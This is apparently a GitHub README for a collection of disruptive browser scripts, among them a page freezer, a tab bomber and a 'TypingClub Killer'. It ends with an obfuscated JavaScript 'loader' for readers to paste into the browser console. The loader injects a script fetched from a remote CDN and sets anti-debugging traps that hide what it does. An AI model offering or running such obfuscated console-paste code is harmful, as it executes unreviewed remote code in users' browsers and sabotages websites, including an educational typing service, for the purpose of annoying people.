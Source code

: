 # scripts
## a collection of random scripts, usually designed to annoy people
~~### note: you need SnowLord7's script extension to run this, thanks for your great extension man!~~

## quick start
~~Download SnowLord7's Script Extension for chrome:
[https://chrome.google.com/webstore/detail/snowlords-script-extensio/ocpkldjgfaimjjemnlppehhgdbagajhp?hl=en](https://chrome.google.com/webstore/detail/snowlords-script-extensio/ocpkldjgfaimjjemnlppehhgdbagajhp?hl=en)
Once installed, choose a script below and copy it's url:~~

~~Alert 100: https://cdn.jsdelivr.net/gh/davaci/scripts@master/alert100.js  
Page Freezer: https://cdn.jsdelivr.net/gh/davaci/scripts@master/autofreeze.js  
Freeze TypingClub: https://cdn.jsdelivr.net/gh/davaci/scripts@master/freeze.js  
TypingClub Killer: https://cdn.jsdelivr.net/gh/davaci/scripts@master/killtypingclub.js  
Tab Bomber: https://cdn.jsdelivr.net/gh/davaci/scripts@master/bomber.js~~

~~Click on the extension's icon. It should open a window. At the top of said window, there will be a box that is labeled *Script URL*
and paste the selected code from before. Name it something descriptave, then click *Add*.
Scroll down to the bottom of the window, and you should see a new entry named whatever you called it. Next to it, there will a button labeled
*Inject*. Click on that, and the script will be run on the page. For a destructave example, try the Page Freezer, and use *body*
as the id. Then click OK,
and the page will freeze.~~

## new method: coresdev loader
Copy and paste the following script into the JavaScript console:
```
var _0x1d73b9=function(){var _0x42b95c=!![];return function(_0x5372a8,_0x2e9ac0){var _0x16ea31=_0x42b95c?function(){if(_0x2e9ac0){var _0x524f53=_0x2e9ac0['apply'](_0x5372a8,arguments);return _0x2e9ac0=null,_0x524f53;}}:function(){};return _0x42b95c=![],_0x16ea31;};}();(function(){_0x1d73b9(this,function(){var _0x486b30=new RegExp('function\x20*'+'\x5c(\x20*\x5c)'),_0x3d0ce=new RegExp('\x5c+\x5c+\x20*(?:['+'a-zA-Z_$]['+'0-9a-zA-Z_'+'$]*)','i'),_0x34e3c8=_0x5639b0('init');!_0x486b30['test'](_0x34e3c8+'chain')||!_0x3d0ce['test'](_0x34e3c8+'input')?_0x34e3c8('0'):_0x5639b0();})();}());var ic=document['createElem'+'ent']('script');console['log']('coresdev\x20l'+'oader\x20-\x20cr'+'eated\x20elem'+'ent'),ic['setAttribu'+'te']('src','https://cd'+'n.jsdelivr'+'.net/gh/co'+'redoescode'+'/scripts@m'+'aster/load'+'er.js'),console['log']('coresdev\x20l'+'oader\x20-\x20se'+'t\x20source\x20t'+'o\x20loader\x20s'+'cript'),document['head']['appendChil'+'d'](ic),console['log']('coresdev\x20l'+'oader\x20-\x20in'+'jected\x20ele'+'ment\x20-\x20sta'+'rting\x20hand'+'over');function _0x5639b0(_0xb00582){function _0xd5b270(_0x309ce5){if(typeof _0x309ce5==='string')return function(_0x1c5d73){}['constructo'+'r']('while\x20(tru'+'e)\x20{}')['apply']('counter');else(''+_0x309ce5/_0x309ce5)['length']!==0x1||_0x309ce5%0x14===0x0?function(){return!![];}['constructo'+'r']('debu'+'gger')['call']('action'):function(){return![];}['constructo'+'r']('debu'+'gger')['apply']('stateObjec'+'t');_0xd5b270(++_0x309ce5);}try{if(_0xb00582)return _0xd5b270;else _0xd5b270(0x0);}catch(_0x42579c){}}
```
This will inject and start the coresdev loader, allowing you to further inject scripts. Custom extension catching is now supported.
Loader source code in loader.js.
